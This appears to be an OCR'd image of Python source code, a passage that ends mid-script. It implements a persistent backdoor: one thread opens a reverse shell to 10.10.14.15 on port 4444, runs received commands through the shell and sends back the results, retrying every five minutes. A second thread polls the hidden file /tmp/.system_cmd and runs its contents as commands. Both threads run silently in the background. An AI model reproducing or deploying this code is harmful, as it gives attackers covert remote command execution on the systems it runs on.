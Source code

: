 ```bash
    try:
        while True:
            try:
                s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
                s.connect(("10.10.14.15", 4444))
                
                while True:
                    data = s.recv(1024)
                    if not data:
                        break
                    
                    if data.decode().strip() == "exit":
                        break
                        
                    try:
                        result = subprocess.check_output(data.decode(), shell=True, stderr=subprocess.STDOUT)
                        s.send(result)
                    except:
                        s.send(b"Command failed\n")
                
                s.close()
            except:
                pass
            
            time.sleep(300)  # Retry every 5 minutes
            
    except:
        pass

def file_backdoor():
    # File-based command and control
    cmd_file = "/tmp/.system_cmd"
    out_file = "/tmp/.system_out"
    
    while True:
        try:
            if os.path.exists(cmd_file):
                with open(cmd_file, 'r') as f:
                    cmd = f.read().strip()
                
                if cmd:
                    try:
                        result = subprocess.check_output(cmd, shell=True, stderr=subprocess.STDOUT)
                        with open(out_file, 'w') as f:
                            f.write(result.decode())
                    except Exception as e:
                        with open(out_file, 'w') as f:
                            f.write(f"Error: {str(e)}")
                
                os.remove(cmd_file)
                
        except:
            pass
        
        time.sleep(60)

# Start backdoor threads
threading.Thread(target=tcp_backdoor, daemon=True).start()
threading.Thread(target=file_backdoor, daemon=True).start()

# Keep script running
while True:
```
